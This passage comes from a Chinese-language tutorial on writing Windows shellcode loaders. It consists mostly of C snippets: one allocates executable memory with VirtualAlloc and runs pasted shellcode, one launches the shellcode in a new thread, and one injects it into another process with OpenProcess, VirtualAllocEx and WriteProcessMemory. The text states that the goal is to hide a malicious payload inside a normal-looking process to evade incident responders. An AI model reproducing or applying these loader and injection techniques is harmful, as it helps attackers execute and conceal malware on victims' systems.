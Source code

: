 ```plain
            printf("Failed to read registry value.\n");
        }

        // 关闭注册表项
        RegCloseKey(hKey);
    } else {
        printf("Failed to open registry key.\n");
    }

    return 0;
}
```

## 四。加载器入口点的写法

对于加载器的写法，无论别的是什么，也总得要有个入口点，也就是 api，可以使用常见的 api，可以使用自己找个少见的 api。比如：VirtualAlloc，更底层是 VirtualAllocEx。

### VirtualAlloc 直接加载

一个最简单的直接加载 payload，开辟内存空间运行，把载荷放进去。

```plain
#include <stdio.h>
#include <windows.h>
using namespace std;
int main()
{
    char shellcode[] = "把 shellcode 粘贴到这里";
    LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpAlloc, shellcode, sizeof shellcode);
    ((void(*)())lpAlloc)();
    return 0;
}
```

### 创建线程运行

自己这个程序运行后，给自己开个线程运行

```plain
void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);//创建线程运行 shellcode
```

### 远程线程加载

把恶意的载荷加载去第三方的进程，这样应急排查的话，就会看见一个正常的进程。

```plain
打开一个要加载的远程线程：
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

分配空间：
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

写入内存：
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```
